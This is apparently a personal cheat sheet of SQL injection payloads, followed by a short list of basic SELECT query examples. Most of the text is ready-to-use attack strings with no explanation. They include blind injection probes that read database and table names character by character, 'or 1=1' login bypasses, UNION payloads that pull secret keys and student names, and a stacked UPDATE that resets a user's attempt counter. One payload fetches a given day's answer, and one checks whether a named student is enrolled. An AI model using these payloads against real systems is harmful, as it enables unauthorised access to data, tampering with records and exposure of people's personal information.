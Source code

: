 





**# Blind sql :**

=> ?id=1' AND (ascii(substr((select database()),1,1)) > 97) --+

=> ?id=1' AND (ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1)) = 101) --+





**# Online:**



	payload1: admin' or '1'='1' -- 

&nbsp;	payload2: ' UNION SELECT secret\_key, null, null, null FROM hidden\_data-- 



&nbsp;	Payload 1: 2005033'; UPDATE users SET tries\_today=0 WHERE username='2005033' # a

&nbsp;	Payload 2: -1' UNION SELECT 1,2,(select word from answers where day='2025-07-13') # a





&nbsp;	' or '1'='1



&nbsp;	' UNION SELECT student\_name FROM enrollments -- 



&nbsp;	' and 1=(SELECT 1 FROM enrollments WHERE student\_name = 'Farriha Afnan'  AND course\_name='Database')--





**# Basic queries:** 



🔹 1. SELECT – Retrieve data



-- Get all columns from "users"

SELECT \* FROM users;



-- Get specific columns

SELECT name, email FROM users;



-- With a condition

SELECT name FROM users WHERE age > 25;

